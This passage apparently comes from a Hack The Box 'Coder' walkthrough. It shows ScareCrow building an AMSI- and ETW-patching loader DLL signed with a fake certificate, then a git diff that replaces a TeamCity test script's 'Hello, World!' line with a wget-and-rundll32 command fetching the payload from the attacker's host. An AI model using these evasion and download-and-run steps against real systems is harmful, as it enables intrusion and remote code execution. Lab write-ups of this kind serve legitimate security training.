```bash
┌──(ar0x㉿kali)-[~/Tools/DefenseEvasion/ScareCrow]
└─$ ./ScareCrow -I ~/Desktop/HTB/Machines/Coder/PETITE_POIGNANCE.bin -domain coder.htb -Loader dll

  _________                           _________
 /   _____/ ____ _____ _______   ____ \_   ___ \_______  ______  _  __
 \_____  \_/ ___\\__  \\_  __ \_/ __ \/    \  \/\_  __ \/  _ \ \/ \/ /
 /        \  \___ / __ \|  | \/\  ___/\     \____|  | \(  <_> )     /
/_______  /\___  >____  /__|    \___  >\______  /|__|   \____/ \/\_/
        \/     \/     \/            \/        \/
                                                        (@Tyl0us)
        “Fear, you must understand is more than a mere obstacle.
        Fear is a TEACHER. the first one you ever had.”

[!] Missing Garble... Downloading it now
[*] Encrypting Shellcode Using ELZMA Encryption
[+] Shellcode Encrypted
[+] Patched ETW Enabled
[+] Patched AMSI Enabled
[+] Sleep Timer set for 2633 milliseconds
[*] Creating an Embedded Resource File
[+] Created Embedded Resource File With sechost's Properties
[*] Compiling Payload
[+] Payload Compiled
[*] Signing sechost.dll With a Fake Cert
[+] Signed File Created
[!] Sha256 hash of sechost.dll: d813ce0e9976871dacf124eb19ab744a3a8ba3e4806cd57cd8e96ca5104a1828
[+] DLL Compiled
[!] Note: Loading a dll (with Rundll32 or Regsvr32) that has the same name as a valid system DLL will cause problems, in this case its best to change the name slightly
```

Great, now we have our `Loader` and we are ready to go. Now we just need to create the patch and file and upload it to the server to get access to the server.

```powershell
wget 10.10.14.137:8000/combase.dll -O C:\Windows\Temp\combase.dll; rundll32.exe C:\Windows\Temp\combase.dll,DllRegisterServer
```

I changed the `write-host "Hello, World!"` to the new payload and generated a patch file with `git diff`.

```diff
┌──(ar0x㉿kali)-[~/…/Machines/Coder/Migrations/teamcity_test_repo]
└─$ git diff hello_world.ps1
diff --git a/hello_world.ps1 b/hello_world.ps1
index 09724d2..cd3a2d1 100644
--- a/hello_world.ps1
+++ b/hello_world.ps1
@@ -1,2 +1,2 @@
 #Simple repo test for Teamcity pipeline
-write-host "Hello, World!"
+wget 10.10.14.137:8000/combase.dll -O C:\Windows\Temp\combase.dll; rundll32.exe C:\Windows\Temp\combase.dll,DllRegisterServer
```
